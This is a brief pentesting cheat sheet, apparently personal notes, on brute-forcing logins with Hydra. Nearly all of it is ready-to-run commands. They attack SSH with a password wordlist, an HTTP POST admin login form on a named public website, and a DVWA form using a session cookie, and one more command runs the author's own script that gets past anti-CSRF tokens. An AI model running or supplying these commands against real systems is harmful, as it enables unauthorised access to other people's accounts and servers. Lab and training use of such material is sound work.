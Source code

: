 
## HYDRA
Is a brute force tool  
  
```  
Usage : hydra -l <user> -P <password list> <protocol>://<ip>:<port> -t <threads> -V  


hydra -l root -P /usr/share/wordlists/metasploit/unix \_passwords.txt ssh://10.0.2.6:22 -t 4 -V

```

hydra -l {username} -P {password list path} -s {port} -f {Site Address} http-post-form “{Path to postback page}:{USERNAME\_NAME}=^USER^&{PASSWORD\_NAME}=^PASS^:{failed login text}”

```
hydra -l hydra -P password.lst -s 80 -f www.sillychicken.co.nz http-post-form “/administrator/index.php:usrname=^USER^&pass=^PASS^&submit=Login:Incorrect Username”
```


### HYDRA with PHPSESSID

```
hydra 192.168.0.105 -V -l admin -P ~/rockyou.txt http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=rname and/or password incorrect:H=Cookie: PHPSESSID=f8ucrbu0qmta4ettc3208gcvnq; security=low" -t 64

```

# My Tool
#### also supports anti-csrf token bypass
```
./anti\_csrf\_brute.py \-P ./password.txt \-u http://192.168.0.112/dvwa/vulnerabilities/brute \-c "PHPSESSID:tj  
j0esrnt64heiqr50hbbpj8s4;security:high;" \-F incorrect \-param "username:admin;password:^PASS^;Login:Login;user\_  
token:^CSRF^"
```
![[Pasted image 20210117153716.png]]